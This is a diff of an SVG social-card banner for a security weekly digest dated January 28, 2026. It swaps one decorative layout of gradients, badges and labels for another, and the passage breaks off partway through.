

- <svg xmlns="http://www.w3.org/2000/svg" width="1200" height="630" viewBox="0 0 1200 630">
+ <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 1200 630" width="1200" height="630" role="img" aria-label="Tech Security Weekly Digest January 28 2026: MS Office Zero-Day CVE-2026-21509, Grist Core RCE, CTEM Framework">
  <defs>
-     <linearGradient id="bg" x1="0%" y1="0%" x2="100%" y2="100%">
-       <stop offset="0%" stop-color="#0a0e1a" />
-       <stop offset="60%" stop-color="#0f1628" />
-       <stop offset="100%" stop-color="#141b2d" />
-     </linearGradient>
-     <linearGradient id="hg" x1="0%" y1="0%" x2="100%" y2="0%">
-       <stop offset="0%" stop-color="#1e293b" />
-       <stop offset="100%" stop-color="#0f172a" />
-     </linearGradient>
-     <filter id="glow" x="-50%" y="-50%" width="200%" height="200%">
-       <feGaussianBlur stdDeviation="18" />
+     <linearGradient id="bgMain" x1="0%" y1="0%" x2="100%" y2="100%">
+       <stop offset="0%" stop-color="#080F1E" />
+       <stop offset="55%" stop-color="#0A1225" />
+       <stop offset="100%" stop-color="#0D0E28" />
+     </linearGradient>
+     <linearGradient id="heroGrad" x1="0%" y1="0%" x2="0%" y2="100%">
+       <stop offset="0%" stop-color="#111827" />
+       <stop offset="100%" stop-color="#0C1421" />
+     </linearGradient>
+     <linearGradient id="tr1Grad" x1="0%" y1="0%" x2="0%" y2="100%">
+       <stop offset="0%" stop-color="#1A1226" />
+       <stop offset="100%" stop-color="#130E1E" />
+     </linearGradient>
+     <linearGradient id="br1Grad" x1="0%" y1="0%" x2="0%" y2="100%">
+       <stop offset="0%" stop-color="#0E1A14" />
+       <stop offset="100%" stop-color="#0A1410" />
+     </linearGradient>
+     <linearGradient id="termBg" x1="0%" y1="0%" x2="0%" y2="100%">
+       <stop offset="0%" stop-color="#0D1117" />
+       <stop offset="100%" stop-color="#080D10" />
+     </linearGradient>
+     <linearGradient id="docGrad" x1="0%" y1="0%" x2="0%" y2="100%">
+       <stop offset="0%" stop-color="#E8F0FE" />
+       <stop offset="100%" stop-color="#C5D5F8" />
+     </linearGradient>
+     <linearGradient id="exploitFlare" x1="0%" y1="0%" x2="100%" y2="0%">
+       <stop offset="0%" stop-color="#E63946" stop-opacity="0" />
+       <stop offset="50%" stop-color="#FF4757" stop-opacity="0.9" />
+       <stop offset="100%" stop-color="#E63946" stop-opacity="0" />
+     </linearGradient>
+     <linearGradient id="ctemBar1" x1="0%" y1="0%" x2="100%" y2="0%">
+       <stop offset="0%" stop-color="#06D6A0" />
+       <stop offset="100%" stop-color="#05A880" />
+     </linearGradient>
+     <linearGradient id="ctemBar2" x1="0%" y1="0%" x2="100%" y2="0%">
+       <stop offset="0%" stop-color="#118AB2" />
+       <stop offset="100%" stop-color="#0D6F8E" />
+     </linearGradient>
+     <linearGradient id="ctemBar3" x1="0%" y1="0%" x2="100%" y2="0%">
+       <stop offset="0%" stop-color="#FFD166" />
+       <stop offset="100%" stop-color="#F4B93E" />
+     </linearGradient>
+     <linearGradient id="ctemBar4" x1="0%" y1="0%" x2="100%" y2="0%">
+       <stop offset="0%" stop-color="#EF476F" />
+       <stop offset="100%" stop-color="#C73558" />
+     </linearGradient>
+     <linearGradient id="ctemBar5" x1="0%" y1="0%" x2="100%" y2="0%">
+       <stop offset="0%" stop-color="#8338EC" />
+       <stop offset="100%" stop-color="#6020C8" />
+     </linearGradient>
+     <radialGradient id="glowRed" cx="50%" cy="50%" r="50%">
+       <stop offset="0%" stop-color="#E63946" stop-opacity="0.6" />
+       <stop offset="100%" stop-color="#E63946" stop-opacity="0" />
+     </radialGradient>
+     <radialGradient id="glowAmber" cx="50%" cy="50%" r="50%">
+       <stop offset="0%" stop-color="#FF6B35" stop-opacity="0.5" />
+       <stop offset="100%" stop-color="#FF6B35" stop-opacity="0" />
+     </radialGradient>
+     <radialGradient id="glowGreen" cx="50%" cy="50%" r="50%">
+       <stop offset="0%" stop-color="#06D6A0" stop-opacity="0.45" />
+       <stop offset="100%" stop-color="#06D6A0" stop-opacity="0" />
+     </radialGradient>
+     <pattern id="dotGrid" x="0" y="0" width="36" height="36" patternUnits="userSpaceOnUse">
+       <circle cx="18" cy="18" r="0.7" fill="#2A3558" opacity="0.55" />
+     </pattern>
+     <filter id="softShadow" x="-10%" y="-10%" width="130%" height="130%">
+       <feGaussianBlur in="SourceAlpha" stdDeviation="3" />
+       <feOffset dx="2" dy="4" />
+       <feComponentTransfer>
+         <feFuncA type="linear" slope="0.5" />
+       </feComponentTransfer>
+       <feMerge>
+         <feMergeNode />
+         <feMergeNode in="SourceGraphic" />
+       </feMerge>
    </filter>
-     <marker id="ar" markerWidth="8" markerHeight="8" refX="4" refY="4" orient="auto">
-       <path d="M0,0 L8,4 L0,8 Z" fill="#ef4444" opacity="0.7" />
-     </marker>
+     <filter id="txtGlow" x="-20%" y="-20%" width="140%" height="140%">
+       <feGaussianBlur in="SourceAlpha" stdDeviation="1.5" />
+       <feOffset dx="1" dy="1.5" />
+       <feComponentTransfer>
+         <feFuncA type="linear" slope="0.65" />
+       </feComponentTransfer>
+       <feMerge>
+         <feMergeNode />
+         <feMergeNode in="SourceGraphic" />
+       </feMerge>
+     </filter>
  </defs>
-   <rect width="1200" height="630" fill="url(#bg)" />
-   <g opacity="0.04" stroke="#94a3b8" stroke-width="0.5">
-     <line x1="0" y1="105" x2="1200" y2="105" />
-     <line x1="0" y1="210" x2="1200" y2="210" />
-     <line x1="0" y1="315" x2="1200" y2="315" />
-     <line x1="0" y1="420" x2="1200" y2="420" />
-     <line x1="0" y1="525" x2="1200" y2="525" />
-     <line x1="240" y1="0" x2="240" y2="630" />
-     <line x1="480" y1="0" x2="480" y2="630" />
-     <line x1="720" y1="0" x2="720" y2="630" />
-     <line x1="960" y1="0" x2="960" y2="630" />
-   </g>
-   <circle cx="200" cy="300" r="200" fill="#ef4444" opacity="0.06" filter="url(#glow)" />
-   <circle cx="600" cy="350" r="180" fill="#f59e0b" opacity="0.05" filter="url(#glow)" />
-   <circle cx="1000" cy="300" r="180" fill="#3b82f6" opacity="0.06" filter="url(#glow)" />
-   <rect x="0" y="0" width="1200" height="80" fill="url(#hg)" opacity="0.9" />
-   <rect x="0" y="78" width="1200" height="2" fill="#334155" opacity="0.8" />
-   <g transform="translate(48,40)">
-     <path d="M0,-22 L18,-12 L18,3 C18,13 10,20 0,24 C-10,20 -18,13 -18,3 L-18,-12 Z" fill="#1e3a5f" stroke="#3b82f6" stroke-width="1.5" />
-     <path d="M-7,1 L-2,6 L8,-5" stroke="#3b82f6" stroke-width="2.5" fill="none" stroke-linecap="round" />
-   </g>
-   <text x="80" y="44" font-family="Arial,sans-serif" font-size="28" font-weight="700" fill="#f1f5f9">Security Weekly Digest</text>
-   <rect x="990" y="18" width="178" height="44" rx="6" fill="#1e293b" stroke="#334155" stroke-width="1" />
-   <text x="1079" y="48" font-family="Arial,sans-serif" font-size="15" font-weight="700" fill="#94a3b8" text-anchor="middle">January 28, 2026</text>
-   <rect x="32" y="100" width="220" height="120" rx="8" fill="#1a0505" stroke="#ef4444" stroke-width="1.5" />
-   <circle cx="52" cy="120" r="6" fill="#ef4444" />
-   <g transform="translate(142,148)">
-     <path d="M0,-18 L16,12 L-16,12 Z" fill="none" stroke="#ef4444" stroke-width="1.8" />
-     <text x="0" y="6" font-family="Courier New" font-size="9" font-weight="700" fill="#ef4444" text-anchor="middle">CVE</text>
-   </g>
-   <text x="142" y="197" font-family="Arial,sans-serif" font-size="13" font-weight="700" fill="#ef4444" text-anchor="middle">ZERO-DAY</text>
-   <rect x="268" y="100" width="220" height="120" rx="8" fill="#1a0d0d" stroke="#f59e0b" stroke-width="1.5" />
-   <circle cx="288" cy="120" r="6" fill="#f59e0b" />
-   <g transform="translate(378,148)">
-     <path d="M0,-18 L16,12 L-16,12 Z" fill="none" stroke="#f59e0b" stroke-width="1.8" />
-     <text x="0" y="6" font-family="Courier New" font-size="9" font-weight="700" fill="#f59e0b" text-anchor="middle">CVE</text>
-   </g>
-   <text x="378" y="197" font-family="Arial,sans-serif" font-size="13" font-weight="700" fill="#f59e0b" text-anchor="middle">CVE-2026-215</text>
-   <rect x="504" y="100" width="220" height="120" rx="8" fill="#0a1020" stroke="#3b82f6" stroke-width="1.5" />
-   <circle cx="524" cy="120" r="6" fill="#3b82f6" />
-   <g transform="translate(614,148)">
-     <path d="M0,-16 L14,-8 L14,4 C14,12 8,16 0,20 C-8,16 -14,12 -14,4 L-14,-8 Z" fill="none" stroke="#3b82f6" stroke-width="1.8" />
-   </g>
-   <text x="614" y="197" font-family="Arial,sans-serif" font-size="13" font-weight="700" fill="#3b82f6" text-anchor="middle">SEC OPS</text>
-   <rect x="740" y="100" width="200" height="120" rx="8" fill="#071a10" stroke="#22c55e" stroke-width="1.5" />
-   <circle cx="760" cy="120" r="6" fill="#22c55e" />
-   <g transform="translate(840,148)">
-     <path d="M0,-18 L16,12 L-16,12 Z" fill="none" stroke="#22c55e" stroke-width="1.8" />
-     <text x="0" y="6" font-family="Courier New" font-size="9" font-weight="700" fill="#22c55e" text-anchor="middle">CVE</text>
-   </g>
-   <text x="840" y="197" font-family="Arial,sans-serif" font-size="13" font-weight="700" fill="#22c55e" text-anchor="middle">CVE PATCH</text>
-   <rect x="956" y="100" width="212" height="120" rx="8" fill="#071a20" stroke="#22d3ee" stroke-width="1.5" />
-   <circle cx="976" cy="120" r="6" fill="#22d3ee" />
-   <g transform="translate(1062,148)">
-     <path d="M0,-16 L14,-8 L14,4 C14,12 8,16 0,20 C-8,16 -14,12 -14,4 L-14,-8 Z" fill="none" stroke="#22d3ee" stroke-width="1.8" />
-   </g>
-   <text x="1062" y="197" font-family="Arial,sans-serif" font-size="13" font-weight="700" fill="#22d3ee" text-anchor="middle">THREAT INT</text>
-   <rect x="32" y="240" width="1136" height="220" rx="10" fill="#0c1220" stroke="#1e293b" stroke-width="1" />
-   <g opacity="0.25">
-     <circle cx="180" cy="330" r="2" fill="#94a3b8" />
-     <circle cx="200" cy="340" r="2" fill="#94a3b8" />
-     <circle cx="550" cy="310" r="2" fill="#94a3b8" />
-     <circle cx="570" cy="325" r="2" fill="#94a3b8" />
-     <circle cx="750" cy="320" r="2" fill="#94a3b8" />
-     <circle cx="900" cy="330" r="2" fill="#94a3b8" />
-     <circle cx="350" cy="350" r="2" fill="#94a3b8" />
-     <circle cx="1000" cy="340" r="2" fill="#94a3b8" />
-   </g>
-   <circle cx="170" cy="340" r="22" fill="#1a0505" stroke="#ef4444" stroke-width="2" />
-   <text x="170" y="344" font-family="Arial,sans-serif" font-size="9" font-weight="700" fill="#ef4444" text-anchor="middle">0DAY</text>
-   <circle cx="370" cy="350" r="20" fill="#1a0d0d" stroke="#f59e0b" stroke-width="2" />
-   <text x="370" y="354" font-family="Arial,sans-serif" font-size="9" font-weight="700" fill="#f59e0b" text-anchor="middle">CVE-2</text>
-   <circle cx="580" cy="330" r="22" fill="#0a1020" stroke="#3b82f6" stroke-width="2" />
-   <text x="580" y="334" font-family="Arial,sans-serif" font-size="9" font-weight="700" fill="#3b82f6" text-anchor="middle">SEC</text>
-   <circle cx="780" cy="355" r="18" fill="#071a10" stroke="#22c55e" stroke-width="2" />
-   <text x="780" y="359" font-family="Arial,sans-serif" font-size="9" font-weight="700" fill="#22c55e" text-anchor="middle">CVE</text>
-   <circle cx="980" cy="340" r="22" fill="#071a20" stroke="#22d3ee" stroke-width="2" />
-   <text x="980" y="344" font-family="Arial,sans-serif" font-size="9" font-weight="700" fill="#22d3ee" text-anchor="middle">THRE</text>
-   <line x1="192" y1="340" x2="350" y2="350" stroke="#ef4444" stroke-width="1.5" stroke-dasharray="10 6" opacity="0.6" marker-end="url(#ar)" />
-   <line x1="390" y1="350" x2="558" y2="330" stroke="#f59e0b" stroke-width="1.5" stroke-dasharray="10 6" opacity="0.6" marker-end="url(#ar)" />
-   <line x1="602" y1="330" x2="762" y2="355" stroke="#3b82f6" stroke-width="1.5" stroke-dasharray="10 6" opacity="0.6" marker-end="url(#ar)" />
-   <line x1="798" y1="355" x2="958" y2="340" stroke="#22c55e" stroke-width="1.5" stroke-dasharray="10 6" opacity="0.6" marker-end="url(#ar)" />
-   <rect x="0" y="472" width="1200" height="158" fill="#080c18" opacity="0.95" />
-   <rect x="0" y="472" width="1200" height="2" fill="#1e293b" />
-   <rect x="32" y="490" width="92" height="24" rx="4" fill="#1a0505" stroke="#ef4444" stroke-width="1" />
-   <text x="78" y="506" font-family="Arial,sans-serif" font-size="10" font-weight="700" fill="#ef4444" text-anchor="middle">ZERO-DAY</text>
-   <rect x="136" y="490" width="128" height="24" rx="4" fill="#1a0d0d" stroke="#f59e0b" stroke-width="1" />
-   <text x="200" y="506" font-family="Arial,sans-serif" font-size="10" font-weight="700" fill="#f59e0b" text-anchor="middle">CVE-2026-215</text>
-   <rect x="276" y="490" width="83" height="24" rx="4" fill="#0a1020" stroke="#3b82f6" stroke-width="1" />
